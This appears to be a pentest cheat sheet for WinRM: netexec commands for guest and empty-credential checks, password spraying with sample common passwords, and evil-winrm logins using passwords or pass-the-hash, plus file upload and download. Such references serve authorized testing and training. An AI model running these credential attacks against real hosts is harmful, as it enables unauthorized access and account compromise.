 **Test guest account:**
```bash
netexec winrm $IP -u 'guest' -p ''
```

**Test with empty credentials:**
```bash
netexec winrm $IP -u '' -p ''
```

## Password Spraying

**Best practices:**
- One password against many users
- Common passwords: Password123!, Welcome123!, CompanyName2024!
- Monitor for lockouts
- Use --continue-on-success to test all users

**Example:**
```bash
netexec winrm $IP -u users.txt -p 'Password123!' --continue-on-success
```

## Evil-WinRM Connection

**Username/Password:**
```bash
evil-winrm -i $IP -u administrator -p password
```

**Pass-the-Hash:**
```bash
evil-winrm -i $IP -u administrator -H ntlm_hash
```

**Domain authentication:**
```bash
evil-winrm -i $IP -u 'username@domain.local' -p password
```

**HTTPS (port 5986):**
```bash
evil-winrm -i $IP -u administrator -p password -S
```

## Evil-WinRM Features

**Built-in commands:**
- upload: Transfer files to target
- download: Transfer files from target
- services: Manage services
- menu: Show available commands

**PowerShell execution:**
Once connected, you have full PowerShell access.
